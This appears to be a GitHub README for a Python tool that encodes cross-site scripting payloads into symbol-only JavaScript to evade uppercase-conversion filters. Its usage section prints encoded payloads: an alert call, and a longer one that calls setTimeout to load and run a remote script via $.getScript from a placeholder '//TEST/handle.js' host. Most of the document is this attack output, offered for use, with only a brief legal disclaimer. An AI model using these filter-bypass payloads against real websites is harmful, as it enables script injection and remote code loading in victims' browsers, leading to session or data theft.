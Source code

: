 # XSS-ToUpperBypass
A little python script that encod XSS payload to bypass a to Upper protection

## Credits
Based on the excellent work of Master SEC : https://master-sec.medium.com/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce

## Usage
```bash
$ python ./ToUpperBypass.py                   
Usage: python ./ToUpperBypass.py '<string to encode>'

$ python ./ToUpperBypass.py 'a+l+e+r+t("XSS")' 
Result :
(![]+{})[1]+(![]+[])[2]+([]+{})[4]+(!![]+[])[1]+([]+{})[6]("XSS")

$ python ./ToUpperBypass.py '[][f+i+l+l][c+o+n+s+t+r+u+c+t+o+r](s+e+t+"T"+i+m+e+o+u+t+"("+f+u+n+c+t+i+o+n+"(){ $."+g+e+t+"S"+c+r+i+p+t+"(\""//TEST/"+h+a+n+d+l+e+"."+j+s+"\"")(); }, 3000);")();'
Result :
[][([][1]+[])[4]+([][1]+[])[5]+(![]+[])[2]+(![]+[])[2]][([]+{})[5]+([]+{})[1]+([][1]+[])[1]+(![]+[])[3]+([]+{})[6]+(!![]+[])[1]+([][1]+[])[0]+([]+{})[5]+([]+{})[6]+([]+{})[1]+(!![]+[])[1]]((![]+[])[3]+([]+{})[4]+([]+{})[6]+"T"+([][1]+[])[5]+(22)[([]+{})[6]+([]+{})[1]+"S"+([]+{})[6]+(!![]+[])[1]+([][1]+[])[5]+([][1]+[])[1]+([0]+[""][0][([]+{})[5]+([]+{})[1]+([][1]+[])[1]+(![]+[])[3]+([]+{})[6]+(!![]+[])[1]+([][1]+[])[0]+([]+{})[5]+([]+{})[6]+([]+{})[1]+(!![]+[])[1]])[15]](36)+([]+{})[4]+([]+{})[1]+([][1]+[])[0]+([]+{})[6]+"("+([][1]+[])[4]+([][1]+[])[0]+([][1]+[])[1]+([]+{})[5]+([]+{})[6]+([][1]+[])[5]+([]+{})[1]+([][1]+[])[1]+"(){ $."+([0]+[""][0][([]+{})[5]+([]+{})[1]+([][1]+[])[1]+(![]+[])[3]+([]+{})[6]+(!![]+[])[1]+([][1]+[])[0]+([]+{})[5]+([]+{})[6]+([]+{})[1]+(!![]+[])[1]])[15]+([]+{})[4]+([]+{})[6]+"S"+([]+{})[5]+(!![]+[])[1]+([][1]+[])[5]+(25)[([]+{})[6]+([]+{})[1]+"S"+([]+{})[6]+(!![]+[])[1]+([][1]+[])[5]+([][1]+[])[1]+([0]+[""][0][([]+{})[5]+([]+{})[1]+([][1]+[])[1]+(![]+[])[3]+([]+{})[6]+(!![]+[])[1]+([][1]+[])[0]+([]+{})[5]+([]+{})[6]+([]+{})[1]+(!![]+[])[1]])[15]](36)+([]+{})[6]+"(\""//TEST/"+(17)[([]+{})[6]+([]+{})[1]+"S"+([]+{})[6]+(!![]+[])[1]+([][1]+[])[5]+([][1]+[])[1]+([0]+[""][0][([]+{})[5]+([]+{})[1]+([][1]+[])[1]+(![]+[])[3]+([]+{})[6]+(!![]+[])[1]+([][1]+[])[0]+([]+{})[5]+([]+{})[6]+([]+{})[1]+(!![]+[])[1]])[15]](36)+(![]+{})[1]+([][1]+[])[1]+([][1]+[])[2]+(![]+[])[2]+([]+{})[4]+"."+([]+{})[3]+(![]+[])[3]+"\"")(); }, 3000);")();
```

## Contributing
Contributions are welcome! If you find a bug or have a feature request, please create an issue or submit a pull request.

## Legal disclaimer
Use of this script for attacking a target without mutual consent is illegal. It's is the end user responsibility to obey all applicables laws for his location Developers assume no lisibility and are not responsible for any misuse or domage caused by this program
